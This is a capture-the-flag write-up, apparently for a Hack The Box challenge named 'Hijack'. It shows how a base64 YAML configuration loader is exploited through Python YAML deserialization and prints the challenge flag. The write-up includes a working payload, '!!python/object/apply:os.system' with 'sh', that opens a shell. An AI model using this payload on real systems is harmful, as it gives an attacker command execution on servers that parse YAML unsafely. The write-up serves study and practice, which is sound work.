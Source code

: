 # Hijack
> The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?

## About the Challenge
We were given a server to connect using nc. Here is the preview

![preview](images/preview.png)

There are 2 functionalities on the application, we can create a config and we can load the config

## How to Solve?
If we choosing `Create config` functionality, you need to input the temperature units, target temperatur (solar array, propulsion components, and infrared spectrometer), and auto calibration. After that you will get the result in `base64` encoding

![choose_1](images/choose_1.png)

If we decode the config, you will get this result

```python
!!python/object:__main__.Config {IR_spectrometer_temp: '30', auto_calibration: 'ON', propulsion_temp: '10', solar_array_temp: '20', units: F}
```

The config is using YAML structure, and im using [Hacktricks: Python Yaml Deserialization
](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization) as a reference to do Python YAML Deserialization

So the final payload is
```
!!python/object/apply:os.system
- sh
```

And then encode the payload using `base64` encoding. Choose option 2 (Load Config) and paste the payload there

![flag](images/flag.png)

```
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
```